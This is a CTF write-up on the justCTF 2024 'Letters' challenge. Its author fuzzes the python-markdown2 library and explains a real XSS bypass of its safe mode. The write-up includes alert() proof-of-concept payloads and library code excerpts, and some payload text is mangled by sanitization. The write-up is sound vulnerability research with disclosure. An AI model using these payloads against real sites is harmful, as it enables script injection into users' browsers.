

#### justctf\[teaser\]2024/web
# Letters, or how to find a unintended 0day
by Arc'blroth

<br>

> \[Challenges\] \[Solves (0)\]
>
> Simple letter service which (kinda) supports markdown
> * <http://letters.web.jctf.pro>
> * <p>https://s3.cdn.justctf.team/8257730b-1527-4abc-a140-3708ee887bb8/letters_docker.tar.gz</p>

I didn't find the flag to Letters during JustCTF - in fact, no one did!

>  Hint for Letters:
>
> Intended solution uses not one but two(!) 0day vulnerabilities in 2 different libraries.

> I dont see much enthusiasm about this hint so here is another one:
>
> There is sqli in this challenge

Instead, Letters was post-solved after the CTF by @TrixterTheTux of idek, after the author gave the two additional hints above. The intended solution contained two parts: a 0day SQLi in (I believe) Flask-SQLAlchemy and a 0day XSS in [markdown2](https://github.com/trentm/python-markdown2) (although due to a bug the second XSS was not actually required).

We (and probably a lot of other teams) didn't think there would be _two_ 0days involved in the challenge - so I spent around twelve hours scrutinizing every regex in markdown2 instead. And though I didn't end up solving Letters, what I did find was perhaps just as interesting...

# the ACM Cyber Fuzzing Lab

> im very lost, don't really see a way
>
> will take a look after some sleep but someone else should take a look

~ @arxenix

python-markdown2 is a 4000 line [single-file](https://github.com/trentm/python-markdown2/blob/c6b69f4dae16d6a9bdfb653dcc4d9617719aeaf3/lib/markdown2.py) markdown parser, based off of the original Markdown.pl script. Although markdown2 supports several dozen extensions, Letters ran markdown2 without any, so they'll be out of scope for the rest of this writeup.

Removing the extensions from markdown2, however, still leaves us with 2500 lines of code, much of which involves complex regexen and parsing logic. I could try to read and understand all of that code...

...or maybe I could get the computer to do it for me.

The first search result for "python fuzzer" brings up [Google's Atheris](https://github.com/google/atheris), which does exactly what I want! With a little bit of setup, we're off to the races:

```py
import sys
import atheris

with atheris.instrument_imports():
  import markdown2

def TestOneInput(data):
  data = atheris.FuzzedDataProvider(data)
  data = data.ConsumeUnicode(sys.maxsize)
  markdown2.markdown(data)

atheris.Setup(sys.argv, TestOneInput)
atheris.Fuzz()
```

```text
$ python fuzz.py
INFO: Instrumenting markdown2
INFO: Instrumenting argparse
INFO: Instrumenting gettext
INFO: Instrumenting hashlib

...

#292925 REDUCE cov: 283 ft: 1729 corp: 357/27Kb lim: 616 exec/s: 306 rss: 54Mb L: 43/579 MS: 1 EraseBytes-

 === Uncaught Python exception: ===
AttributeError: 'NoneType' object has no attribute 'group'
Traceback (most recent call last):
  File "/home/arc/stuff/fuzz.py", line 10, in TestOneInput
    markdown2.markdown(data)
  File "/home/arc/stuff/venv/lib/python3.11/site-packages/markdown2.py", line 183, in markdown
    use_file_vars=use_file_vars, cli=cli).convert(text)
                                          ^^^^^^^^^^^^^
  File "/home/arc/stuff/venv/lib/python3.11/site-packages/markdown2.py", line 395, in convert
    text = self._hash_html_blocks(text, raw=True)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/arc/stuff/venv/lib/python3.11/site-packages/markdown2.py", line 870, in _hash_html_blocks
    text = self._strict_tag_block_sub(text, self._block_tags_a, hash_html_block_sub)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/arc/stuff/venv/lib/python3.11/site-packages/markdown2.py", line 990, in _strict_tag_block_sub
    block = callback(block.rstrip('\n'))  # remove trailing newline
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/arc/stuff/venv/lib/python3.11/site-packages/markdown2.py", line 2971, in result
    return function(*args + rest, **combined)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/arc/stuff/venv/lib/python3.11/site-packages/markdown2.py", line 808, in _hash_html_block_sub
    tag = tag or re.match(r'.*?<(\S).*?>', html).group(1)
                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'group'

==41205== ERROR: libFuzzer: fuzz target exited
SUMMARY: libFuzzer: fuzz target exited
```

One lunch later, I came back to the above crash, generated by this input:

```
$ xxd crash-0e5b55ff18a08d9c55293417014d766f1e197074
00000000: e1db 040b 233c 756c 3e0a 3c6c 693e 0a00  ....#<ul>.<li>..
00000010: 0000 4000 2b20 2020 2020 200f 3c2f 6c69  ..@.+      .</li
00000020: 3e0a 3c2f 756c 0a3e 0a3c 703e 043c 2f70  >.</ul.>.<p>.</p
00000030: 3e0a 0a3c 7072 653e 3c63 6f64 653e 6d64  >..<pre><code>md
00000040: 352d 6231 36f8 f80b 1a                   5-b16....
```

With a bit of "testing it and seeing if it crashes", we can reduce this input down to

```md
</ul
>
<pre><code>
```

which sure is a strange piece of Markdown! So now that we have a crash, can we turn this into an XSS?

Adding a closing `>` to the first line

```md
</ul>
>
<pre><code>
```

seems to stop the crash itself from happening. If we then try to add an XSS payload:

```md
</ul>
>
<body onload=alert("hi")<pre><code>
```

markdown2, even in `--safe replace` mode, will output our XSS!

```html
<p>[HTML_REMOVED]
&gt;
<body onload=alert("hi")[HTML_REMOVED][HTML_REMOVED]</p>
```

Adding another attribute for an `
>
<code>
```

gives

```md
<p>[HTML_REMOVED]
&gt;
&lt;img src=a onerror=alert("hi")[HTML_REMOVED][HTML_REMOVED]</p>
```

But with a little bit of fiddling, we can abuse the leniency of browser HTML parsers and the automatically-added \<p\> tags to our advantage:

```md
</ul>
>
<code> src=a
```

gives

```html
<p>[HTML_REMOVED]
&gt;

```

Wahoo!

# cthulhuian regexen

> he comes<s>, the pestilent sli</s>thy regex-infection wil<b>l devour your HT</b>ML parser

~ <https://stackoverflow.com/a/1732454>

It turns out the above exploit is actually composed of two separable parts: the bug that Atheris found, and the actual bug leading to XSS. After justCTF had ended, I finally reduced the XSS down to a single line:

```md
 src=a
```

which produces the output

```html
<p>
```

From discussion with DrBrix, the author for Letters, it turns out that this _wasn't even the intended XSS_ in markdown2 - by complete accident I had found a second 0day!

So how do these two bugs (not) work?

Tracing through the backtrace for the original crash brings us to the `_strict_tag_block_sub` function, which is supposed to remove HTML blocks from the markdown before further processing.

Actually, while we're on this topic, markdown2 achieves this by doing a _really_ cursed thing: it hashes certain things (ie HTML blocks, code blocks, links) that have been processed with SHA256, and then replaces the processed thing with the hash. It then later undoes this substitution after the rest of the markdown has been handled. The hashing algorithm is (thankfully) seeded, but in a really cursed way:

```py
SECRET_SALT = bytes(randint(0, 1000000))
# MD5 function was previously used for this; the "md5" prefix was kept for
# backwards compatibility.
def _hash_text(s: str) -> str:
    return 'md5-' + sha256(SECRET_SALT + s.encode("utf-8")).hexdigest()[32:]
```
_that's a lot of null bytes!_

Anyways, the logic for `_strict_tag_block_sub` is pretty straightforward. We start by initializing a variable called `block` to an empty string. Then, for each line in the input markdown, we:

- add it to `block`, and then
- check if it's a piece of HTML with the regex `r'^(\s{0,%s})(?:</code>(?=</pre>))?(</?(%s)\b>?)' % ('' if allow_indent else '0', current_tag)`.

If this line is HTML markup:
- and starts with `</`, decrement a variable called `tag_count`
- and has the same number of opening tags as closing tags, do nothing
- otherwise increment `tag_count` and set `current_tag` to the found tag.

If `tag_count` is now `== 0` and we're looking at HTML, then run it through a callback function, then reset `block` to nothing.

This logic works well and all as long as the input HTML is well-formed. But what if it isn't? If we start a line with `</p`, we can cause `tag_count` to go down to -1 (!) or as low as we want, allowing us to trigger the callback function on any line we want!

When `_strict_tag_block_sub` is called for the first time in a markdown parse, the callback is a function called `_hash_html_block_sub`, which does the actual work of sanitizing and hashing the given HTML. Unfortunately, the first thing it tries to do is to figure out what tag it's looking at, which is required for the markdown-in-html extension:

```py
def _hash_html_block_sub(self, match, raw=False):
    if isinstance(match, str):
        html = match
        tag = None
    else:
        html = match.group(1)
        try:
            tag = match.group(2)
        except IndexError:
            tag = None

    tag = tag or re.match(r'.*?<(\S).*?>', html).group(1)
```

Since we're giving `_hash_html_block_sub` a string of (allegedly) HTML, it needs to figure out what tag it's looking at itself. Unfortunately, since `</p` isn't a valid starting tag, it immediately dies :\(

Interestingly, markdown2 does try to look for these types of "incomplete" tags: not in `_hash_html_blocks`, but in `_hash_html_spans`. Unfortunately, its logic there is _also_  suspect, paving the way for our XSS bug.

Let's take another look at that final input again:

```md
 src=a
```

`_hash_html_spans`, like `_hash_html_blocks`, is supposed to sanitize and replace bits of HTML within the input markdown. Unlike `_hash_html_blocks`, `_hash_html_spans` deals with inline html nested in the middle of a line,

```md
like <em>this!</em>
```

The logic for `_hash_html_blocks` goes like this: we initialize `is_html_markup` to `False` and then split the input line (or fragment of a line) into tokens using regex.

For each token:
- if `is_html_markup` (and a couple of other things omitted for brevity)
  - sanitize and hash this token, then add its substitution to the output
- else add `_encode_incomplete_tags(token)` to the output

Finally, invert the value of `is_html_markup` before going back to the top of the loop.


So what exactly is a token? Uh... um...

```py
_sorta_html_tokenize_re = re.compile(r"""
    (
        \\*  # escapes
        (?:
            # tag
            </?
            (?:\w+)                                     # tag name
            (?:\s+(?:[\w-]+:)?[\w-]+=(?:".*?"|'.*?'))*  # attributes
            \s*/?>
            |
            # auto-link (e.g., <http://www.activestate.com/>)
            <[\w~:/?#\[\]@!$&'\(\)*+,;%=\.\\-]+>
            |
            <!--.*?-->      # comment
            |
            <\?.*?\?>       # processing instruction
        )
    )
    """, re.X)
```

Notice that all of these cases involve _properly closed_ tags. Because of that, our input will get split on the `<a>` tag into the tokens ``, and ` src=a`.

Crucically, notice that this function **always assumes that the first token is markdown, not HTML** and that succeeding tokens alternate between markdown and HTML. This is true for all well-formed inputs, but we want that to not be the case here!

But wait. Shouldn't incomplete tags in the non-HTML markup get escaped by `_encode_incomplete_tags` anyways?

```py
_incomplete_tags_re = re.compile(r"<(!--|/?\w+?(?!\w)\s*?.+?[\s/]+?)")

def _encode_incomplete_tags(self, text):
    if self.safe_mode not in ("replace", "escape"):
        return text

    if text.endswith(">"):
        return text  # this is not an incomplete tag, this is a link in the form <http://x.y.z>

    def incomplete_tags_sub(match):
        return match.group().replace('<', '&lt;')

    return self._incomplete_tags_re.sub(incomplete_tags_sub, text)
```



It turns out the first token somehow _fails_ the incomplete tag check! This is because the token doesn't end in a `[ /]`, and furthermore because we had no space between the end of our malformed `` tag.

Thus, our first token happily escapes, well, escaping. Our evil paddingless `<a>` tag is sacrificed into an `[HTML_REMOVED]`, which just so happens to be valid JS as an array lookup. And finally, our `src=a` needs no escaping, and rounds off the end of our malformed `img` tag. We've achieved XSS with virtually no side effects!

# #responsible disclosure

> so #how do i do responsible disclosure
>
> post it on twitter

There's a meme that every CTF team holds a couple of 0days in their back pocket, but this is the first real-world vuln I've ever found! 🥳

Unfortunately, as [the Synk security team noticed](https://github.com/trentm/python-markdown2/pull/434#issuecomment-1187474792) for a previous vulnerability, markdown2 doesn't have a disclosure policy. So instead, I followed in the footsteps of terjang and reported my things via Github Issue:

<https://github.com/trentm/python-markdown2/issues/583>

<https://github.com/trentm/python-markdown2/issues/584>
